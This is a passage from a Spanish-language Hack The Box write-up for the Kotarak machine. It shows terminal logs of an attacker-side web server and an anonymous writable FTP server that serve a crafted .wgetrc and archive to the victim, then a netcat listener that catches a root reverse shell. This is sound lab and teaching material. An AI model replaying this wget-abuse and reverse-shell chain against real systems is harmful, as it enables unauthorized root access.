 ```bash
10.0.3.133 - - [19/Oct/2021 18:24:01] "POST /archive.tar.gz HTTP/1.1" 200 -

File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) 
```

```bash
❯ python -m pyftpdlib -p21 -w
/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:244: RuntimeWarning: write permissions assigned to anonymous user.
  RuntimeWarning)
[I 2021-10-19 17:14:56] concurrency model: async
[I 2021-10-19 17:14:56] masquerade (NAT) address: None
[I 2021-10-19 17:14:56] passive ports: None
[I 2021-10-19 17:14:56] >>> starting FTP server on 0.0.0.0:21, pid=325633 <<<
[I 2021-10-19 17:16:49] 10.10.10.55:52190-[] FTP session opened (connect)
[I 2021-10-19 17:17:11] 10.10.10.55:59210-[] FTP session opened (connect)
[I 2021-10-19 17:17:11] 10.10.10.55:59210-[anonymous] USER 'anonymous' logged in.
[I 2021-10-19 17:17:13] 10.10.10.55:59210-[anonymous] RETR /home/k4miyo/Documentos/HTB/Kotarak/exploits/.wgetrc completed=1 bytes=70 seconds=0.001
[I 2021-10-19 17:17:13] 10.10.10.55:59210-[anonymous] FTP session closed (disconnect).
[I 2021-10-19 17:21:12] 10.10.10.55:59222-[] FTP session opened (connect)
[I 2021-10-19 17:21:12] 10.10.10.55:59222-[anonymous] USER 'anonymous' logged in.
[I 2021-10-19 17:21:13] 10.10.10.55:59222-[anonymous] RETR /home/k4miyo/Documentos/HTB/Kotarak/exploits/.wgetrc completed=1 bytes=70 seconds=0.001
[I 2021-10-19 17:21:14] 10.10.10.55:59222-[anonymous] FTP session closed (disconnect).
^C[I 2021-10-19 17:21:23] received interrupt signal
[I 2021-10-19 17:21:23] >>> shutting down FTP server, 2 socket(s), pid=325633 <<<
[I 2021-10-19 17:21:23] 10.10.10.55:52190-[] FTP session closed (disconnect).
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.55] 37270
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# hostname -I
10.0.3.133 
#
```

Ya nos encontramos en la tercera máquina 10.10.3.133 como el usuario **root** y podemos visualizar la flag (roo.txt).
